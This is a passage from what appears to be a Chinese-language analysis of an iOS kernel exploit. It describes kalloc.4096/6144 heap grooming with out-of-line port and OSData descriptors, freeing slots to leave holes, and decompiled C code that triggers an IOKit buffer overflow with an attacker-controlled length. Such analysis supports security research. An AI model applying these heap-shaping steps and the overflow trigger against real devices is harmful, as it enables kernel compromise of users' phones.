 内核中包含OOL_PORTS描述符的kalloc.4096如下所示：

```
+0x528 : target_port
+0x530 : target_port
+0xd28 : target_port
+0xd30 : target_port
```

在该过程中，希望可以交替使用一个空的kalloc.4096。这样一来，就得到了一个看起来类似于下面的kalloc.4096：

[![](https://p5.ssl.qhimg.com/t01181e16d42d1f3347.png)](https://p5.ssl.qhimg.com/t01181e16d42d1f3347.png)

其中，P是具有上述布局的外联端口描述符，K是来自外联内存描述符的空kalloc.4096。

然后它们交替另外96次，首先针对4104字节OSData对象，反序列化填充了ASCII “1”，同时还对一个4104字节的kalloc groomer进行反序列化。上述两个都将导致kalloc.6144的分配，因为这是kalloc.4096之后的下一个规格：

[![](https://p0.ssl.qhimg.com/t0131c27acfeadfc341.png)](https://p0.ssl.qhimg.com/t0131c27acfeadfc341.png)

这样一来，布局空间就有所改变，其中OSData后备缓冲区与kalloc.6144中空的外联内存描述符大致交替。



## 打孔过程

目前，已经破坏了kalloc.4096的中间部分，希望在一些外部端口描述符之间留出空白：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t01c9ae303ae0b32f83.png)

同样，攻击者会破坏kalloc.6144外联内存描述符的一半：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01cfaf65facc1d3527.png)

他们通过一个复杂的kallocer重新分配了他们刚刚释放的一半数量的24个分配，然后触发溢出：

```
__int64 __fastcall trigger_overflow(mach_port_t userclient,
                                    uint32_t bad_length)
`{`
  int64 struct_out_size;
  char struct_out[0x7d8];
  char struct_in[0x7d8];
  memset(struct_in, 'A', 0x7D8LL);
  *(uint32_t*)struct_in = 1;
  *(uint32_t*)&amp;struct_in[0x7D4] = bad_length;
  struct_out_size = 0x7D8LL;
  return IOConnectCallStructMethod(userclient,
                                   5,
                                   struct_in,
                                   0x7D8,
                                   struct_out,
                                   &amp;struct_out_size);
`}`
```
